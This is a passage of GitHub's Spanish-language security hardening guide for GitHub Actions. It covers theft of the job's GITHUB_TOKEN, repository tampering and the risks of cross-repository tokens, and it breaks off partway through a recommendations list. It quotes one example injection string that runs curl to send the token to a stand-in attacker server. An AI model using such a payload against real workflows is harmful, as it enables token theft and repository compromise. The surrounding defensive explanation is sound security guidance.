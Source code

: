 ## **Robo del elemento GITHUB_TOKEN del trabajo**

Es posible que un atacante robe el elemento GITHUB_TOKEN del trabajo. El
ejecutor de GitHub Actions recibe automáticamente un elemento
GITHUB_TOKEN generado con permisos que se limitan únicamente al
repositorio que contiene el flujo de trabajo y el token expira una vez
que se haya completado el trabajo. Una vez que se venza, el token ya no
será útil para un atacante. Para evitar esta limitación, pueden
automatizar el ataque y realizarlo en fracciones de segundo llamando a
un servidor controlado por el atacante con el token, por ejemplo: a\";
set +e; curl http://example.com?token=\$GITHUB_TOKEN;#.

## **Modificar el contenido de un repositorio**

El servidor del atacante puede usar la API GitHub para modificar el
contenido del repositorio, incluidas las versiones, si los permisos
asignados de GITHUB_TOKEN no están restringidos.

# **Considerar acceso entre repositorios**

GitHub Actions tiene el alcance intencional de un solo repositorio a la
vez. GITHUB_TOKEN concede el mismo nivel de acceso que el de un usuario
con acceso de escritura, ya que cualquier usuario con este tipo de
acceso puede acceder a este token creando o modificando un archivo de
flujo de trabajo, lo que eleva los permisos de GITHUB_TOKEN en caso de
ser necesario. Los usuarios tienen permisos específicos para cada
repositorio, por lo que permitir que GITHUB_TOKEN para un repositorio
otorgue acceso a otro afectaría al modelo de permisos de GitHub si no se
implementa con cuidado. De forma similar, se debe tener cuidado al
agregar tokens de autenticación de GitHub a un flujo de trabajo, ya que
esto también puede afectar el modelo de permisos de GitHub al otorgar
inadvertidamente un acceso amplio a los colaboradores.

Si tu organización es propiedad de una cuenta empresarial, puedes
compartir y reutilizar GitHub Actions almacenándo las en repositorios
internos.

Otra forma de realizar interacciones privilegiadas entre repositorios es
hacer referencia a un token de autenticación de GitHub o llave SSH como
un secreto dentro del flujo de trabajo. Ya que muchos tipos de tokens de
autenticación no permiten el acceso granular a recursos específicos,
existe un riesgo significativo en el utilizar el tipo incorrecto de
token, ya que puede otorgar un acceso mucho más amplio que lo que se
espera.

Esta lista describe los acercamientos recomendados para acceder a los
datos de un repositorio dentro de un flujo de trabajo, en orden
descendente de preferencia:

**1 - GITHUB_TOKEN**

-   Este token tiene un ámbito intencional para el repositorio único que
    > invocó el flujo de trabajo y puede tener el mismo nivel de acceso
    > que el de un usuario con acceso de escritura en el repositorio. El
    > token se crea antes de que inicie cada job y caduca cuando dicho
    > job finaliza.
